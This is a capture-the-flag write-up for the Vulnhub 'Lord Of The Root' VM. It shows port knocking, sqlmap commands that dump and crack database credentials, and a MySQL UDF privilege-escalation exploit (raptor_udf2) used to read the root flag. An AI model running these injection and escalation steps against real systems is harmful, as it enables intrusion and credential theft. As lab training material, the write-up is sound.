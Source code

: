 # **Vulnhub - Lord Of The Root**

Author: `adi7312`

## **Host scanning**

We start this CTF with scanning a vulnerable machine with command below:

```
nmap -sT -A 192.168.133.132
```


![](p/1.png)


We can see that vulnerable host has opened port 22 (ssh). Let's try connect to that machine via ssh.


```
ssh 192.168.133.132
```


![](p/2.png)


We cannot of course login via ssh, because we don't know password, but we got a hint - we should knock the host at 1st, 2nd and 3rd port.

We can do that with the following script:

```bash
#!/bin/sh
HOST=$1
shift

for ARG in "$@"
do 
    nmap -Pn --host-timeout 201 --max-retries 0 -p $ARG $HOST
done
```

After launching it (`./knock.sh 192.168.133.32 1 2 3`) we can scan the host again.


![](p/4.png)


We can see that there is open http port with Apache server running on it.


## **Investigation of Apache Server**

First what we can do is to investsigate *robots.txt* file, but when we open site with it, we can find only some picture.


![](p/5.png)


But let's take a look at source code. We can find some interesting string that seems to be encoded in Base64.


![](p/6.png)

Let's try to decode it.


![](p/7.png)


Let's decode it again.


![](p/8.png)


As a result we got some interesting directory with index.php file, let's move into it.


![](p/9.png)


We can use *sqlmap* to check if this site is vulnerable to SQLi. 

Let's run the command below:

    sqlmap -o -u "http://192.168.133.132:1337/978345210/index.php" --forms --dbs


As we can see, we got 4 databases, so this site is vulnerable to SQLi!

![](p/10.png)


Let's get tables for Webapp db.


    sqlmap -o -u "http://192.168.133.132:1337/978345210/index.php" --forms -D Webapp --tables


![](p/11.png)


Let's get columns of that table


    sqlmap -o -u "http://192.168.133.132:1337/978345210/index.php" --forms -D Webapp -T Users --columns


![](p/12.png)


Now it's time for dumping passwords:

    sqlmap -o -u "http://192.168.133.132:1337/978345210/index.php" --forms -D Webapp -T Users -C id,username,password --dump


![](p/13.png)


Now we should dump mysql db, we repeat all commands above, but for mysql db.


![](p/14.png)


I made mistake during dumping passwords so I needed to check *user* column with other command (hash A55... is related to debian-sys-maint).

During dumping password *sqlmap* offered to perform dictionary attack on that hashes, I agreed on that and the program cracked that hash. So password to *root* account is *darkshadow*.


## **Further enumeration**

Now we can login to machina via ssh.

```
ssh smeagol@192.168.133.132
Password: MyPreciousR00t
```

In `/` directory we can find some interesting directory named SECRET, it has 3 directories called doors.


![](p/15.png)


When I tried to run this file it turned out that it needs some input, immidiately I thought about Buffer Oveflow, so I provided some garbage data and I was right!


![](p/16.png)


But what is interesting, I could do it only once! Something was watching that file and it didn't allow for further overflowing the buffer. So maybe I should took another way, for example I still have username and password to mysql. Let's check if mysql is running with `ps aux | grep mysql`. Not only it is running, it is running with root privileges! After some research I figured out that there is method for priv esc with mysql.


![](p/17.png)


## **Privilege Escalation**

I used exploit from [this site](https://www.exploit-db.com/exploits/1518). I saved C programm into **raptor2_udf2.c** file. Now we need to compile it and use it.


```shell
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
mysql -u root -p
Password: darkshadow

mysql> use mysql;
mysql> create table foo(line blob);
mysql> insert into foo values(load_file('/home/smeagol/raptor2_udf2.so'));
mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor2_udf2.so';
mysql> create function do_system returns integer soname 'raptor2_udf2.so';
mysql> select * from mysql.func;
```

I followed the instructions in exploit and now we can read the root flag!

```shell
mysql> select do_system('cat /root/Flag.txt > /tmp/out; chmod 777 /tmp/out');
mysql> \! cat /tmp/out
```

![](p/18.png)

Flag: `“There is only one Lord of the Ring, only one who can bend it to his will. And he does not share power.”
– Gandalf`












